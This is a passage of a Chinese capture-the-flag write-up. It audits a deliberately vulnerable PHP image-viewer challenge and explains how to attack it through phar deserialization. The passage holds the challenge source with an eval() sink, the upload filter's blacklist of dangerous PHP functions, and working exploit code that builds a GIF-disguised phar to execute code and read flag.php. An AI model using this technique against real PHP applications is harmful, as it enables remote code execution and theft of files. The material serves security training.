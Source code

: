 ```
<!DOCTYPE html><html lang="zh"><head>	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />	<title>查看图片</title>	<link type = "text/css" rel = "stylesheet" href = "css/style.css"></head><body>	<script type = "text/javascript" color = "0,0,255" opacity = '0.7' zIndex = "-2" count = "99" src = 'js/canvas-nest.min.js'></script> <!-- 动态背景 -->	<?php	#include_once "flag.php"; 	error_reporting(0);	class View	{		public $dir;		private $cmd;		function __construct()		{			$this->dir = 'upload/'.md5($_SERVER['REMOTE_ADDR']).'/';			$this->cmd = 'echo "<div style=\"text-align: center;position: absolute;left: 0;bottom: 0;width: 100%;height: 30px;\">Powered by: xxx</div>";';			if(!is_dir($this->dir)) {				mkdir($this->dir, 0777, true);			}		}		function get_file_list() {			$file = scandir('.');			return $file;		}		function show_file_list() {			$file = $this->get_file_list();			for ($i = 2; $i < sizeof($file); $i++) { 				echo "<p align=\"center\" style=\"font-weight: bold;\">[".strval($i - 1)."]  $file[$i] </p>";			}		}		function show_img($file_name) {			$name = $file_name;			$width = getimagesize($name)[0];			$height = getimagesize($name)[1];			$times = $width / 200;			$width /= $times;			$height /= $times;			$template = "<img style=\"clear: both;display: block;margin: auto;\" src=\"$this->dir$name\" alt=\"$file_name\" width = \"$width\" height = \"$height\">";			echo $template;		}		function delete_img($file_name) {			$name = $file_name;			if (file_exists($name)) {				@unlink($name);				if(!file_exists($name)) {					echo "<p align=\"center\" style=\"font-weight: bold;\">成功删除! 3s后跳转</p>";					header("refresh:3;url=view.php");				} else {					echo "Can not delete!";					exit;				}			} else {				echo "<p align=\"center\" style=\"font-weight: bold;\">找不到这个文件! </p>";			}		}		function __destruct() {			eval($this->cmd);		}	}		$ins = new View();	chdir($ins->dir);	echo "<h3>当前目录为 " . $ins->dir . "</h3>";	$ins->show_file_list();	if (isset($_POST['show'])) {		$file_name = $_POST['show'];		$ins->show_img($file_name);	}	if (isset($_POST['delete'])) {		$file_name = $_POST['delete'];		$ins->delete_img($file_name);	}	unset($ins);	?></body></html>
```

(3) 简单的审计一下两份功能代码，upload.php 中没有什么利用点，就是上传文件与拦截过滤了一些危险函数。关键点在 view.php 中，view.php 里面有很显然的 eval()，只要修改类中的私有变量 $cmd 就可以拿到 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROswl3EEylYs1kPj1ZJR9CcgfUn4h4PsG1vwH0mID5tpqAwRmj55NGibOnxOxmSf5pPzjJ0nO768icg/640?wx_fmt=png)

这里有一个 file_exists 函数可以利用，而且最后还会进行代码执行。请参考 创宇 404 实验室 的文章（详见后参考文献），利用 phar 反序列化漏洞进行攻击，该方法在文件系统函数（file_exists()、is_dir()等）参数可控的情况下，配合 phar:// 伪协议，可以不依赖 unserialize()直接进行反序列化操作。这让一些看起来 “人畜无害” 的函数变得“暗藏杀机”，这里利用的就是 file_exists 函数触发该漏洞。

(4) 我们看到 upload.php 中的黑名单如下，想办法用 show_source() 函数读取 flag.php 文件，而且 phar 可以直接上传。

*   if(preg_match(’/(scandir)|(end)|(implode)|(eval)|(system)|(passthru)|(exec)|(chroot)|(chgrp)|(chown)|(shell_exec)|(proc_open)|(proc_get_status)|(ini_alter)|(ini_set)|(ini_restore)|(dl)|(pfsockopen)|(symlink)|(popen)|(putenv)|(syslog)|(readlink)|(stream_socket_server)|(error_log)/i’, $content) !== 0) {  
    echo(’< script>alert(“You could not upload this image because of some dangerous code in your file!”)</ script>’);
    

构造的 exp 模板代码如下，并且增加绕过 gif 文件头的限制。

```
<?php    class View    {        public $dir;        private $cmd;        function __construct()        {            $this->cmd = 'show_source("flag.php");';        }        function __destruct() {            eval($this->cmd);        }    }    $phar = new Phar('phar.phar');    $phar -> startBuffering();    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>'); //设置stub 增加gif文件头    $phar ->addFromString('test.txt','test'); //添加要压缩的文件    $object = new View();    $phar -> setMetadata($object); //将自定义meta-data存入manifest    $phar -> stopBuffering();  ?>
```
